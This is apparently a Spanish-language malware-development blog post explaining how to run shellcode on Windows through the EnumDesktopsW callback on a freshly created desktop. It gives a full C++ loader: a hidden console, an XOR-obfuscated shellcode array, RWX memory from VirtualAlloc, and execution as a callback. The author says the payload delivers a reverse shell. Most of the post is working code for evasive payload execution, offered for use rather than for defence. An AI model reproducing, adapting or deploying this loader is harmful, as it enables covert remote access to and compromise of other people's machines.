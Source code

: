 ```yaml
---
layout: post
title: Inyeccion de shellcodes via EnumDesktopsW()
author: c4rta
date: 2023-07-07
categories: [MalDev]
cover: /imgs/enumDesktopW/waifu.gif
---
```

Te explicare como use la funcion ```EnumDesktopsW()``` para ejecutar una shellcode en un escritorio creado con ```CreateDesktopW()``` 
{:.lead}
## EnumDesktopsW

EnumDesktopsW es una funcion de la WinAPI la cual enumera todos los escritorios del usuario, cabe recalcar que solo enumera los cuales tengan acceso ```DESKTOP_ENUMERATE``` o ```GENERIC_ALL```, lo que hace por detras esta funcion es invocar multiples veces a la funcion callback del parámetro ```lpEnumFunc``` hasta que termine de enumerar todos los escritorios.

```lpEnumFunc``` es uno de los parametros que recibe ```EnumDesktopsW()```, este parametro es un puntero a la callback  ```DESKTOPENUMPROC```, su sintaxis es:

```c++
BOOL CALLBACK EnumDesktopProc(
  _In_ LPTSTR lpszDesktop,
  _In_ LPARAM lParam
);
```

### ¿Como se ejecuta la shellcode?

Basicamente hace esto:

- Se asigna un buffer de memoria mediante una función como VirtualAlloc
- Se copia la shellcode en la memoria recién asignada
- Se usa EnumDesktopsW para enumerar los escritorios y mediante una funcion callback encontrar la dirección de una función que se puede usar para ejecutar la shellcode (La direccion que regresa VirtualAlloc)

El codigo "base" para ejecutar una shellcode de esta forma tomando en cuenta la explicacion anterior, es:

```c++
HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(hAlloc, shellcode, sizeof(shellcode));
EnumDesktopsW(GetProcessWindowStation(),(DESKTOPENUMPROCW) hAlloc, NULL);
```

Pero nos vamos a poner experimentadores y te voy a explicar como usando ese mismo codigo de base lo converti en algo bien genial

### Explicacion

Como en los demas tutoriales, te pondre todo el codigo y te explicare que hacen las funciones y como se ejecuta la shellcode

```c++
#include <Windows.h>
#include <iostream>

unsigned char shellcode[] = {
	"\x92\x26\xed\x8a\x9e\x86\xa2\x6e\x6e\x6e\x2f\x3f\x2f\x3e"
	"\x3c\x3f\x26\x5f\xbc\x0b\x26\xe5\x3c\x0e\x26\xe5\x3c\x76"
	"\x38\x26\xe5\x3c\x4e\x23\x5f\xa7\x26\xe5\x1c\x3e\x26\x61"
	"\xd9\x24\x24\x26\x5f\xae\xc2\x52\x0f\x12\x6c\x42\x4e\x2f"
	"\xaf\xa7\x63\x2f\x6f\xaf\x8c\x83\x3c\x26\xe5\x3c\x4e\xe5"
	"\x2c\x52\x2f\x3f\x26\x6f\xbe\x08\xef\x16\x76\x65\x6c\x61"
	"\xeb\x1c\x6e\x6e\x6e\xe5\xee\xe6\x6e\x6e\x6e\x26\xeb\xae"
	"\x1a\x09\x26\x6f\xbe\xe5\x26\x76\x3e\x2a\xe5\x2e\x4e\x27"
	"\x6f\xbe\x8d\x38\x23\x5f\xa7\x26\x91\xa7\x2f\xe5\x5a\xe6"
	"\x26\x6f\xb8\x26\x5f\xae\xc2\x2f\xaf\xa7\x63\x2f\x6f\xaf"
	"\x56\x8e\x1b\x9f\x22\x6d\x22\x4a\x66\x2b\x57\xbf\x1b\xb6"
	"\x36\x2a\xe5\x2e\x4a\x27\x6f\xbe\x08\x2f\xe5\x62\x26\x2a"
	"\xe5\x2e\x72\x27\x6f\xbe\x2f\xe5\x6a\xe6\x26\x6f\xbe\x2f"
	"\x36\x2f\x36\x30\x37\x34\x2f\x36\x2f\x37\x2f\x34\x26\xed"
	"\x82\x4e\x2f\x3c\x91\x8e\x36\x2f\x37\x34\x26\xe5\x7c\x87"
	"\x25\x91\x91\x91\x33\x27\xd0\x19\x1d\x5c\x31\x5d\x5c\x6e"
	"\x6e\x2f\x38\x27\xe7\x88\x26\xef\x82\xce\x6f\x6e\x6e\x27"
	"\xe7\x8b\x27\xd2\x6c\x6e\x7f\x32\xae\xc6\x6f\x27\x2f\x3a"
	"\x27\xe7\x8a\x22\xe7\x9f\x2f\xd4\x22\x19\x48\x69\x91\xbb"
	"\x22\xe7\x84\x06\x6f\x6f\x6e\x6e\x37\x2f\xd4\x47\xee\x05"
	"\x6e\x91\xbb\x04\x64\x2f\x30\x3e\x3e\x23\x5f\xa7\x23\x5f"
	"\xae\x26\x91\xae\x26\xe7\xac\x26\x91\xae\x26\xe7\xaf\x2f"
	"\xd4\x84\x61\xb1\x8e\x91\xbb\x26\xe7\xa9\x04\x7e\x2f\x36"
	"\x22\xe7\x8c\x26\xe7\x97\x2f\xd4\xf7\xcb\x1a\x0f\x91\xbb"
	"\xeb\xae\x1a\x64\x27\x91\xa0\x1b\x8b\x86\xfd\x6e\x6e\x6e"
	"\x26\xed\x82\x7e\x26\xe7\x8c\x23\x5f\xa7\x04\x6a\x2f\x36"
	"\x26\xe7\x97\x2f\xd4\x6c\xb7\xa6\x31\x91\xbb\xed\x96\x6e"
	"\x10\x3b\x26\xed\xaa\x4e\x30\xe7\x98\x04\x2e\x2f\x37\x06"
	"\x6e\x7e\x6e\x6e\x2f\x36\x26\xe7\x9c\x26\x5f\xa7\x2f\xd4"
	"\x36\xca\x3d\x8b\x91\xbb\x26\xe7\xad\x27\xe7\xa9\x23\x5f"
	"\xa7\x27\xe7\x9e\x26\xe7\xb4\x26\xe7\x97\x2f\xd4\x6c\xb7"
	"\xa6\x31\x91\xbb\xed\x96\x6e\x13\x46\x36\x2f\x39\x37\x06"
	"\x6e\x2e\x6e\x6e\x2f\x36\x04\x6e\x34\x2f\xd4\x65\x41\x61"
	"\x5e\x91\xbb\x39\x37\x2f\xd4\x1b\x00\x23\x0f\x91\xbb\x27"
	"\x91\xa0\x87\x52\x91\x91\x91\x26\x6f\xad\x26\x47\xa8\x26"
	"\xeb\x98\x1b\xda\x2f\x91\x89\x36\x04\x6e\x37\x27\xa9\xac"
	"\x9e\xdb\xcc\x38\x91\xbb"
};

typedef BOOL(WINAPI* ShellcodeFunction)(LPCWSTR, LPARAM);

DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}

int main(){
	HWND hWin = GetConsoleWindow();
	ShowWindow(hWin, SW_HIDE);
	
    HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
    if (hDesktop != NULL){
        HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
        if (hThread == NULL){
            CloseDesktop(hDesktop);
            return 1;
        }else{
        	CloseHandle(hThread);
	
	        for (int i = 0; i < sizeof(shellcode); i++){
	            shellcode[i] = (byte)(shellcode[i] ^ (byte)'\x6e');
	        }
	
	        const size_t shellcodeSize = sizeof(shellcode);
	
	        LPVOID hAlloc = VirtualAlloc(
	            NULL,
	            shellcodeSize,
	            MEM_COMMIT | MEM_RESERVE,
	            PAGE_EXECUTE_READWRITE
	        );
	
	        memcpy(hAlloc, shellcode, shellcodeSize);
	        EnumDesktopsW(GetProcessWindowStation(), (DESKTOPENUMPROCW)hAlloc, NULL);
	        CloseDesktop(hDesktop);
		}

    }
    return 0;
}
```

### Explicacion rapida

Se crea un hilo para ejecutar ```SwitchDesktopThread()```, asi que cuando se ejecute esa funcion cambiara al escritorio mediante ```SetThreadDesktop()```, ese escritorio se llama "ShellcodeDesk" creado con ```CreateDesktop()```, permitiendo que esa accion ocurra en segundo plano en ese hilo que se creo, despues se reserva memoria con ```VirtualAlloc()``` para la shellcode y se inyectara en el contexto del escritorio "ShellcodeDesk" mediante la funcion de callback ```EnumDesktopW()```, permitiento asi que el escritorio actual del usuario no este ocurriendo nada, y todo el proceso de la shellcode se este ejecutando en el escritorio "ShellcodeDesk"


### Explicacion de cada funcion

#### CreateDesktopW()

```c++
HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
```

Creara un nuevo escritorio llamado "ShellcodeDesk" donde se le da acceso "GENERIC_ALL" para tener control total de ese ecritorio, y ojo,
para windows los escritorios solo son objetos que representan un area virtual la cual ejecuta aplicaciones y tiene ventanas, cada escritorio
esta aislado de otro escritorio, es decir, que cada escritorio tiene sus ventanas, aplicaciones.

Como curiosidad, la creacion de escritorios esta limitada por el tamaño del heap del escritorio del sistema, el cual es de 48 MB

Y si ese escritorio se crea, osea es diferente de NULL, regresa un identificador que se guarda en ```hDesktop```, y pasara a la funcion CreateThread()

#### CreateThread()

```c++
HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
```

Ahora, cuando se hace un llamado a esta funcion lo que esta pasando es que crea un hilo en el proceso actual, y date cuenta que este hilo su tercer parametro es un puntero del nombre de la funcion que se va a ejecutar en ese hilo, osea ```SwitchDesktopThread```, tambien se le pasa ```hDesktop``` que es la variable que tiene el escritorio creado con ```CreateDesktopW()```

#### SwitchDesktopThread()

```c++
DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}
```

Ahora con ```SwitchDesktopThread``` lo que esta haciendo es cambiar al escritorio creado con ```CreateDesktopW()``` mediante ```SetThreadDesktop()```, sin embargo este cambio lo hace asignando el escritorio creado al hilo al que pertenece o del cual se esta ejecutando, osea, el escritorio "ShellcodeDesk" que se creo con ```CreateDesktopW()``` se estaria ejecutando en el hilo creado con ```CreateThread```, por eso mismo, en uno de los parametros de ```CreateThread``` se le pasa ```hDesktop```, que es la variable que tiene el nombre de escritorio "ShellcodeDesk".

#### Ejecucion de la shellcode

Y en caso de que todo vaya bien todas las intrucciones que le siguen se estarian ejecutando en ese escritorio ("ShellcodeDesk") lo cual permite que esten aisladas del escritorio actual del usuario, y ya al final con ```EnumDesktopsW()``` se ejecuta las shellcode en el contexto del escritorio creado, osea ShellcodeDesk

#### Resultados

Llega una reverse shell por que eso es lo que hace la shellcode

![](/imgs/enumDesktopW/1.png)

![](/imgs/enumDesktopW/2.png)

